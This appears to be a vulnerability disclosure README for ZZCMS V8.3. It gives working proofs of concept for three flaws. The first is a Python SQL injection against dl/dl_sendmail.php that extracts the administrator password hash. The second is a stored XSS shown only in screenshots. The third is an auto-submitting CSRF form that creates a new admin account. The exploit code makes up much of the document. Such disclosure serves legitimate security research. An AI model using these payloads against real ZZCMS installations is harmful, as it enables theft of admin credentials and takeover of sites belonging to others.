 # ZZCMS V8.3

## 1. SQL Injection
 
#### dl/dl_sendmail.php
![image](https://github.com/AvaterXXX/ZZCMS/blob/master/1.png)
According to the code, the SQL statement is submitted as a post, and there is no filtering in the middle, so there is SQL injection here.

#### POC：
···
import requests

url = "http://10.10.10.39:8080/dl/dl_sendmail.php"
cookies = {'UserName':'admin','PassWord':'21232f297a57a5a743894a0e4a801fc3'}
data = { 'sql':'select email from zzcms_dl where id=-1 union select pass from zzcms_admin #'}

q = requests.post(url,data,cookies=cookies)
q.encoding = 'utf-8'
print q.text
···

You can see that you have successfully obtained the administrator password.
![image](https://github.com/AvaterXXX/ZZCMS/blob/master/2.png)


## 2. Stored XSS

#### /user/manage.php
![image](https://github.com/AvaterXXX/ZZCMS/blob/master/3.png)
Keep going
#### /zt/show.php
![image](https://github.com/AvaterXXX/ZZCMS/blob/master/4.png)
Stripfxg function is to restore the materialization. As you can see, there is a storage XSS vulnerability.

#### Enter XSS
![image](https://github.com/AvaterXXX/ZZCMS/blob/master/5.png)
![image](https://github.com/AvaterXXX/ZZCMS/blob/master/6.png)


## 3. CSRF
After the administrator logged in, open the following  page
poc：
···
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://10.10.10.39:8080/admin/adminadd.php?action=add" method="POST">
      <input type="hidden" name="groupid" value="1" />
      <input type="hidden" name="admins" value="123" />
      <input type="hidden" name="passs" value="123" />
      <input type="hidden" name="passs2" value="123" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
···
